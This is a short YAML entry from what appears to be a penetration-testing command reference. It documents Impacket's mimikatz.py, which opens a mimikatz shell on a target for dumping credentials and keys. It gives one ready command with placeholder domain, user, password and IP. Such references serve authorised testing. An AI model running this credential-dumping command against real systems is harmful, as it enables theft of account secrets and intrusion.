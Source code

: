 ```yaml
---
description: |
  Impacket's mimikatz.py will drop you into a mimikatz shell on the target machine, allowing you to perform any mimikatz-related actions, such as dumping credentials from memory, dumping keys, etc.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

items:
  Password:
    - code: |
        python3 mimikatz.py test.local/john:password123@10.10.10.1
  Username:
    - code: |
        empty
filters:
  Kerberos:
    - code: |
        empty
---
```

